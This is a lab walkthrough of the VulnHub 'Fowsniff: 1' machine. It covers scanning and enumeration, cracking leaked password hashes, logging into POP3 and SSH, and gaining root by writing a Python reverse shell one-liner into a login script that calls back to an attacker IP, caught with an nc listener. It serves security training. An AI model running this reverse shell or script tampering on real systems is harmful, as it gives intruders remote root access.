::::::::::::::::::::::::::::::: page
# Fowsniff: 1 {#fowsniff-1 .title}

\

## 

## Fowsniff: 1

- **[Fowsniff: 1]{style="color:#237522;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/fowsniff-1,262/>



- Now extract the file :

::: codebox
    7z e Fowsniff_CTF_ova.7z
:::

- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#9141ac;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::



- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.134
:::



- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.134
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.134    
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.134
:::



1.  [Web Enumeration]{style="color:#9141ac;"} :

- IP visit in browser : <http://192.168.2.134/>
  <http://192.168.2.134/robots.txt> <http://192.168.2.134/README.txt>
  <http://192.168.2.134/images/>

<!-- -->

- Now run the gobuster for directory brute force :

::: codebox
    gobuster dir -u http://192.168.2.134/ -w /usr/share/wordlists/dirb/common.txt -x php,txt,html
:::



- Visit the endpoints : <http://192.168.2.134/security.txt>



- Search Fowsniff Corp on google then find the github url :

::: codebox
    https://raw.githubusercontent.com/berzerk0/Fowsniff/main/fowsniff.txt
:::



- Found username and password in hash form :

::: codebox
    mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
    mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
    tegel@fowsniff:1dc352435fecca338acfd4be10984009
    baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
    seina@fowsniff:90dc16d47114aa13671c697fd506cf26
    stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
    mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
    parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
    sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
:::

- Hash decrypt :

::: codebox
    https://hashes.com/en/decrypt/hash
:::



- Cracked hash password :

::: codebox
    mauer : mailcall
    mustikka : bilbo101
    tegel : apples01
    baksteen : skyler22
    seina : scoobydoo2
    stone : 
    mursten : carp4ever
    parede : orlando12
    sciana : 07011972
:::

- Only one password was not cracked, but it didn't matter .

<!-- -->

- Connect telnet :

::: codebox
    telnet 192.168.2.134 110
:::

- Then login seina user :

::: codebox
    USER seina
:::

- 

::: codebox
    PASS scoobydoo2
:::



- Check john mailbox contains :

::: codebox
    LIST
:::



- Retrive the mail :

::: codebox
    RETR 1
:::

- 

::: codebox
    RETR 2
:::

 

- Clue Found :

::: codebox
    Username : baksteen
    Password : S1ck3nBluff+secureshell
:::

1.  [SSH Access]{style="color:#9141ac;"} :

- Make SSH connection :

::: codebox
    ssh baksteen@192.168.2.134
:::



1.  [Privilege Escalations]{style="color:#9141ac;"} :

- After gaining access we enumerate the system, as user "baksteen"
  belongs to two different groups . We use to try to find files that
  belong to the "users" group and find a file called "cube.sh" .



- Find files whose group owner is users :

::: codebox
    find / -group users -type f 2>/dev/null
:::



- Read the cube.sh file :

::: codebox
    cat /opt/cube/cube.sh
:::



- Open the file and add python reverse shell in the file :

::: codebox
    nano /opt/cube/cube.sh
:::

- Add reverse shell :

::: codebox
    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.2.219",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
:::



- After add the reverse shell then exit the terminal and start the
  listener in other terminal :

::: codebox
    nc -nlvp 443
:::

- Then again connect the ssh in other terminal :

::: codebox
    ssh baksteen@192.168.2.134
:::



- We got the root shell :



- Navigate the root :

::: codebox
    cd /root
:::

- Check the file list :

::: codebox
    ls
:::

- Read the file :

::: codebox
    cat flag.txt
:::

- We got the flag :


:::::::::::::::::::::::::::::::
